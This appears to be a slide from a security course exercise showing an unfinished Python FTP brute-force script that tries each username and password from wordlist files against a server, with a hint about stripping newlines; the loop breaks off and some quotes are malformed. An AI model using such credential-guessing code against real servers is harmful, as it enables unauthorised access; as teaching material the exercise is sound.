

def ftp_brute(hostname, user, password):
  try:
    ftp = ftplib.FTP(hostname)
    ftp.login(user, password)
    ftp.quit()
    return True
  except:
    return False

userlistfile = open("userlist", "r”)
for users in userlistfile.readlines():
  passlistfile = open("passlist", "r”)
  for password in passlistfile.readlines():

Hint: “.rstrip()” after your user/pass vars may help